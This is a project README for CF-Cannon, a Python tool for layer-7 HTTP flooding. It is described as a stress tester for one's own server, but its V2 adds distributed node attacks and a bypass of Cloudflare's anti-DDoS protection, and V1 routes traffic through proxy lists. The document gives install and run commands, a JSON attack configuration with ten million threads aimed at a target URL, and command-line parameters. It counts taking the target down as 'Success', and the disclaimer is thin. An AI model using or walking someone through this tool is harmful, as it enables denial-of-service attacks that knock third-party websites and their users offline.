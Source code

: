 [![LICENSE](https://img.shields.io/badge/license-Anti%20996-blue.svg)](https://github.com/996icu/996.ICU/blob/master/LICENSE)
# CF-Cannon
## CF-Cannon is a tool written in python to perform layer 7 stress test on your own server.
# ---------------------------------------------
## V2 Version
## V2 version enables distributed attack on each nodes with penetration of Json protection page and can be (theoretically) deployed on infinite machines.
### Install:
```bash
apt-get update
apt-get -y upgrade
apt-get install build-essential nodejs python-setuptools
apt-get install -y python-pip
pip install demjson Flask pycurl 
```

### Run (on each node):
```bash
python attack.py
```
Then use any third party API Tester:  (i.e https://apitester.com/)
Post a json request to path written in attack.py (Default: /attack)
```json
attackinfo={
	"T": 8,
	"charset": "utf-8",
	"is_protected_by_cf": false,
	"keywords": "welcome",
	"path": "/index.php",
	"peerCount": 300,
	"threadCount": 10000000,
	"url": "http://www.sample.com"
}
```
##  Note: Set "is_protected_by_cf" to be true only if you see following page:
![alt text](https://www.a2hosting.com/images/uploads/knowledgebase_images/kb-cloudflare-under-attack-interstitial-page.png)

After sending POST request, you’re suppose to see this:
![alt text](https://levyhsu.com/wp-content/uploads/2019/05/2.png)

Failed means your node have no access to target (keyword not found). It can be caused by:

- You have already take it down (Success)
- Wrong keyword on html page
- Your IP/Machine is on blacklist
- Any other reason cause you have no access to this page

Success simply suggest target web page still functions normally

## Disclaimer: Please make sure all your tests are legal and with consent of relevant parties as I won't be resposible for any consequence caused by this script.

# ---------------------------------------------

## V1 Version(NO LONGER UPDATED)

For CF-bypass you'll need a proxy list with very good connection and low latency to your server.

*Third party proxy checker you may need:*
https://github.com/maxmalysh/python-proxy-checker

### Install:
```
apt-get update
apt-get -y upgrade
apt-get install build-essential nodejs python-setuptools python3-setuptools
apt-get install -y python3-pip
pip3 install PySocks requests cfscrape scapy-python3
```

### Run:
```
python3 cf_cannon.py www.sample-target.com -t 1000 -d /index.php
```

### Parameters:
```
-d --dir : path of target, I.e: www.abc.com/index.php then -d /index.php
-s --ssl : Use http or https. For https&proxy mode your proxy must support https.
-p --port: Port of the server,80 or 443?
-t --threads: How many threads?
-l --time: Haven't done yet
-x --proxy_file_location : Deafult: proxy.list, feel free to assign other list.
```
### Don't forget:
```
ulimit -n 655350
```
### Proof of Power
![image](https://levyhsu.com/wp-content/uploads/2018/10/webwxgetmsgimg.jpeg)

### Notice that:
Each "ERROR:root:’http://abc.com’ returned an error. Could not collect tokens." indicates one proxy failure (cfscrape can’t access page though server)

The effiecy through proxy is still low, if you have ieda or update, welcome to merge.
